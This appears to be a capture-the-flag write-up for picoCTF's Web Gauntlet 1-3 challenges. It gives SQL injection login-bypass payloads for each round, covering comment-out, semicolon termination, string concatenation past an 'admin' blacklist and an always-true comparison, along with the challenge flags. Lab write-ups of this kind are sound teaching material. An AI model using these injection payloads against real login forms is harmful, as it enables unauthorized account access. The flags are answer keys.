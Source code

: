 # Web Gauntlet 1

Open the links [login](http://jupiter.challenges.picoctf.org:54319/), [filter](http://jupiter.challenges.picoctf.org:54319/filter.php).

## Round 1

Entering any username and password shows the SQL query:
```sql
SELECT * FROM users WHERE username='admin' AND password='admin'
```
We can comment out the rest of the SQL using `--`.
```
Username: admin'--
Password: anything
```

---

## Round 2

The `--` is now filtered, but `;` (semicolon) is allowed. Terminate the current query with a semicolon.
```
Username: admin';
Password: anything
```

---

## Round 3

Same as Round 2, `;` is still not filtered.
```
Username: admin';
Password: anything
```

---

## Round 4

The string `admin` is blocked. Bypass blacklist by splitting the string and concatenating it using SQL string concatenation with `||`.
```
Username: ad'||'min';
Password: anything
```

---

## Round 5

Same constraints as Round 4. Continue using string concatenation.
```
Username: ad'||'min';
Password: anything
```

---

**Flag:** `picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}`

# Web Gauntlet 2

Open the links [login](http://mercury.picoctf.net:65261/), [filter]( http://mercury.picoctf.net:65261/filter.php).

Can't use `admin` but concatenation still works, so use:
```
Username: ad'||'min
```
Now, commenting or ending the query doesn't work. So we must provide the correct password.
If the SQL evaluates something like `'a' != 'b'` it's true.
So we try:
```
Username: ad'||'min
Password: a' is not 'b
```

---

**Flag:** `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`

# Web Gauntlet 3

Open the links [login](http://mercury.picoctf.net:63504/), [filter](http://mercury.picoctf.net:63504/filter.php).

Since our solution from the previous challenge didn't exceed 25 characters we can simply use the same credentials.
```
Username: ad'||'min
Password: a' is not 'b
```

---

**Flag:** `picoCTF{k3ep_1t_sh0rt_eb90a623e2c581bcd3127d9d60a4dead}`

